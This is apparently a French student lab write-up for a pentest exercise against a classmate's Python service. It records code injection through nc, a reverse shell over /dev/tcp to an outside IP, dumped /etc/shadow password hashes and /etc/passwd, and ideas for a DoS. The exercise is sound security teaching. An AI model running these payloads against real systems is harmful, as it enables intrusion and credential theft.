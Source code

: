 # TP5 SECU : Exploit, pwn, fix

## I. Pentest

### 1. Reconnaissance

🌞 Déterminer

- **à quelle IP ce client essaie de se co quand on le lance**

En utilisant wireshark, on peut voir que le client essaie de se connecter à l'IP "10.1.1.2".

- **à quel port il essaie de se co sur cette IP**

En utilisant wireshark, on peut voir que le client essaie de se connecter au port "1337".


🌞 Scanner le réseau

[Scan nmap](/TP5/tcp.pcapng)

🌞 Connectez-vous au serveur

```
host = '10.33.72.148'
port = 13337   
```

### 2. Exploit

🌞 Injecter du code serveur

```
nc 10.33.72.148 13337
Ok
Hello__import__('os').popen('ls').read()
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

### 3. Reverse shell

🌞 Obtenez un reverse shell sur le serveur

Sur un premier shell, on écoute sur le port 9999.

```
nc -lvnp 9999
listening on 0.0.0.0 9999 ...
```

Sur un second shell, on envoie la commande suivante.

```
nc 10.33.72.148 13337
Ok
Hello__import__('os').popen('sh -i >& /dev/tcp/10.33.73.79/9999 0>&1').read()
```

On obtient un reverse shell.

🌞 Pwn

```
# cat /etc/shadow
root:$6$zEk1UBcRHlrijLhs$/1dzLO/IL.CSZuDFqhGsfwqMWLqcEqANgi/zoptiNyztK3PKX4uX.TBRaoaZ120sTVCT7awPUUF3s62Hs2yfN.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19653::::::
dbus:!!:19653::::::
tss:!!:19653::::::
sssd:!!:19653::::::
sshd:!!:19653::::::
chrony:!!:19653::::::
systemd-oom:!*:19653::::::
hugo:$6$Y5.0u9zww/X1I33x$PZxU8Ghsb7UOgEpRgjWERYj/Un58bEOig3MYF90y5fo9H.X5sZ6qluhSKqxekAPkwMU6sxw3fn.Z1TZ2bVrdF/::0:99999:7:::
tcpdump:!!:19653::::::
netdata:!!:20014::::::

# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:997:994:chrony system user:/var/lib/chrony:/sbin/nologin
systemd-oom:x:992:992:systemd Userspace OOM Killer:/:/usr/sbin/nologin
hugo:x:1000:1000:hugo:/home/hugo:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
netdata:x:991:991:NetData User:/var/log/netdata:/sbin/nologin
```

### 4. Bonus : DOS

⭐ BONUS : DOS l'application

Comme l'ip du serveur est celle d'un camarade, le DOS n'est pas forcément super sympa. On peut cependant imaginer qu'en envoyant une commande **shutdown**, on pourrait éteindre le serveur. La commande **sleep** permet de faire attendre le serveur pendant un certain temps avant de s'éteindre. Enfin, on peut aussi supprimer le fichier ifcfg qui gère l'ip, et restart NetworkManager.

## II. Remédiation

